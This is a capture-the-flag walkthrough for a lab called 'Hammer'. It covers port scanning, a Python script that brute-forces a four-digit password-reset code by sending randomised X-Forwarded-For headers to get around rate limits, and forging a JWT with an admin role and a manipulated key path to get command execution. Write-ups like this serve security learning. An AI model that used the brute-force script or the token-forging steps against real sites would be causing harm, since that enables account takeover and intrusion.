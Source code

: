 ```yaml
---
description: >-
  Use your exploitation skills to bypass authentication mechanisms on a website
  and get RCE.
icon: hammer-crash
---
```


# Hammer

Start the VM by clicking the `Start Machine` button at the top right of the task. You can complete the challenge by connecting through a VPN or the AttackBox, which contains all the essential tools.

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

_With the Hammer in hand, can you bypass the authentication mechanisms and get RCE on the system?_



### _Q1:_ What is the flag value after logging in to the dashboard?

on rustscan i fount 2 ports that are open 22, 1337

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

when visitng then scaning that port with nmap some more results came, a http application is running&#x20;

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

I intersept the code in burp but couldn't find someting usefull,&#x20;

<figure><img src="../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

now we need to try a custom script i used this reqest to make a custom script using ai..

```python
import requests
import random
from concurrent.futures import ThreadPoolExecutor, as_completed

# Configuration variables
ip_address = "10.10.192.218"
port = "1337"
phpsessid = "pu7q3vhg08bts6ic228g4ki1bj"

# Base URL of the form submission page
url = f"http://{ip_address}:{port}/reset_password.php"

# Common headers for the request (without X-Forwarded-For)
common_headers = {
    "Host": f"{ip_address}:{port}",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:129.0) Gecko/20100101 Firefox/129.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": f"http://{ip_address}:{port}",
    "DNT": "1",
    "Connection": "keep-alive",
    "Referer": f"http://{ip_address}:{port}/reset_password.php",
    "Upgrade-Insecure-Requests": "1",
    "Priority": "u=0, i",
    "Cookie": f"PHPSESSID={phpsessid}"
}

# Custom exception to exit all threads once the correct code is found
class CodeFoundException(Exception):
    pass

# Function to generate all possible 4-digit codes
def generate_codes():
    for i in range(10000):
        yield f"{i:04}"  # Format the number as a 4-digit string, e.g., "0001"

# Function to send a POST request
def send_request(code):
    # Generate a random X-Forwarded-For IP address
    x_forwarded_for = f"{random.randint(1, 255)}.{random.randint(1, 255)}.{random.randint(1, 255)}.{random.randint(1, 255)}"

    # Add the X-Forwarded-For header to the request headers
    headers = common_headers.copy()
    headers["X-Forwarded-For"] = x_forwarded_for

    # Data to be sent with the POST request
    data = {
        "recovery_code": code,
        "s": "106"  # Replace this with the correct hidden field value if necessary
    }

    try:
        # Send the POST request with the new X-Forwarded-For IP address
        response = requests.post(url, headers=headers, data=data, timeout=2)

        # Check if the recovery code is correct
        if "Invalid or expired recovery code!" not in response.text:
            print(f"Success! The correct code is: {code}")
            raise CodeFoundException
    except requests.RequestException:
        pass

    return False

# Function to run the requests in parallel using threading
def run_bruteforce():
    try:
        # Use a ThreadPoolExecutor to run multiple requests in parallel
        with ThreadPoolExecutor(max_workers=100) as executor:  # Adjust max_workers as needed
            futures = {executor.submit(send_request, code): code for code in generate_codes()}

            for future in as_completed(futures):
                future.result()  # Trigger the exception if the correct code is found
    except CodeFoundException:
        print("Correct code found, stopping execution.")
        executor.shutdown(wait=False)

if __name__ == "__main__":
    run_bruteforce()

```

Make sure add your targate ip and phpsessid

after running the python script i got the otp and reset the pass and login to the dashboard

<figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image_2025-07-11_16-55-21.png" alt=""><figcaption></figcaption></figure>

Below we can see there is input and we can run the cmd direct here now lets cat the flat in `/home/ubuntu/flag.txt`&#x20;

but unfortunately cat, or other cmd not working but we got some files in curr dir

<figure><img src="../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

Now, we had another folder _http://10.10.192.218:1337/vendor/firebase/php-jwt/ that means the_ key may be for the jwt token secret key\
also we can seee the jwt toekn in the page source\


<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

copy the jwt token and try to manipulate the token in jwt.io

I changed few thing:\
1\. make role 'admin'\
2\. make the kid path to /html/188ade1.key which is the key that we saw\
3\. add secret key that we got \


<figure><img src="../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

Now we car run cmds that we wanted...!

<figure><img src="../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

We ran that cmd and we fount the flag., whoooooooo....!

<figure><img src="../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Congratulation for solving the lab

Congratulations on completing the lab.....!

